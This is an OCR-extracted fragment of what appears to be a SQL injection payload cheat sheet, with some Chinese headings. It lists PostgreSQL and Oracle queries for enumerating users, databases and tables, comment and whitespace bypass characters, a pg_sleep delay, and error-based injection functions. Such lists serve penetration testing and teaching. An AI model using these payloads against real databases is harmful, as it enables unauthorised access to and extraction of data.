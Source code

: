   -   SELECT /\*comment\*/1

- ##### Current User

  -   SELECT user

  -   SELECT current_user

  -   SELECT session_user

  -   SELECT getpgusername()

- ##### List User

  -   SELECT usename FROM pg_user

- ##### Current Database

  -   SELECT current_database()

- ##### List Database

  -   SELECT datname FROM pg_database

- ##### Ascii

  - SELECT char(0x41)
  - SELECT ascii(\'A\')

- ##### **Delay**

  - ##### pg_sleep(1)

#### Oracle Payload

##### 常见Payload

- ##### dump

  - select \* from v\$tablespace;
  - select \* from user_tables;

  - select column_name from user_tab_columns where table_name = \'table_name\';

  - select column_name, data_type from user_tab_columns where table_name = \'table_name\';

  - SELECT \* FROM ALL_TABLES

- ##### Comment

  - ##### -- –

  - ##### /\*\*/

- ##### Space

  - 0x00 0x09 0xa-0xd 0x20

- ##### **报错**

  - utl_inaddr.get_host_name
  - ctxsys.drithsx.sn

  - ctxsys.CTX_REPORT.TOKEN_TYPE
